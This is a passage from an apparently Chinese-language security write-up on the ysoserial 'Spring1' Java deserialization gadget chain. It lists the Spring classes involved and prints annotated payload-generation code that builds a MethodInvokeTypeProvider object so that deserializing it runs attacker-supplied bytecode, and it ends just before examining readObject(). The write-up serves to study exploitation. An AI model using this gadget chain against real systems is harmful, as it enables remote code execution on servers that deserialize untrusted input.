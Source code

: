   ```java
          Object result = memberValues.get(member);
      ...
          return result;
      }
  }
  ```

- 利用的反序列化类为 `org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider`

- 使用到了 Spring AOP 包中  `InvocationHandler`，分别为
  - `org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`
  - `org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider`

# Spring1

payload 生成代码如下

```java
public Object getObject(final String command) throws Exception {
    // 使用 TemplatesImpl 存储恶意字节码
    final Object templates = Gadgets.createTemplatesImpl(command);
    // 使用 AnnotationInvocationHandler 创建 ObjectFactory 接口的动态代理
    // 并且调用 objectFactoryProxy 的 getObject() 方法会返回 templates 对象
    final ObjectFactory objectFactoryProxy =
        Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);
    // 使用 ObjectFactoryDelegatingInvocationHandler 代理 Type 和 Templates 接口，返回值类型为 Type 
    final Type typeTemplatesProxy = Gadgets.createProxy((InvocationHandler)
                                                        Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")
                                                        .newInstance(objectFactoryProxy), Type.class, Templates.class);
    // 使用 AnnotationInvocationHandler 创建 TypeProvider 接口的动态代理
    // 并且调用 typeProviderProxy 的 getType() 方法会返回 typeTemplatesProxy 对象
    final Object typeProviderProxy = Gadgets.createMemoitizedProxy(
        Gadgets.createMap("getType", typeTemplatesProxy),
        forName("org.springframework.core.SerializableTypeWrapper$TypeProvider"));
    // 创建最终反序列化对象 MethodInvokeTypeProvider
    final Constructor mitpCtor = Reflections.getFirstCtor("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    // 实例化，构造方法中，会将 provider 属性的值设置为 typeProviderProxy
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    // 设置 methodName 属性的值为 newTransformer
    Reflections.setFieldValue(mitp, "methodName", "newTransformer");

    return mitp;
}
```

来看一下 `MethodInvokeTypeProvider` 类的 `readObject()` 方法
